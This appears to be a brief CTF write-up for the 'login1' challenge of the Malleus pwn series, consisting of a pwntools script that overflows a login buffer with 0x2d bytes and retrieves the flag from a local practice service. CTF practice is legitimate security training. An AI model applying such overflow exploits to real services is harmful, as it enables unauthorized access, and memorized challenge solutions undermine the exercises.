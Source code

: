 # Malleus CTF Pwn Challenge

- https://github.com/kusano/ctfpwn_challenge
- https://sanya.sweetduet.info/ctfpwn/

## login1

```python
#!/usr/bin/env python3
from pwn import ELF, context, log, process, remote
exe = context.binary = ELF('./login1')
# io = process([exe.path])
io = remote('localhost', 10001)
io.sendline(b'A' * 0x2d)
io.sendline(b'password')
io.recvuntil(b'The flag is: ')
log.success(io.recvline())
io.close()
```
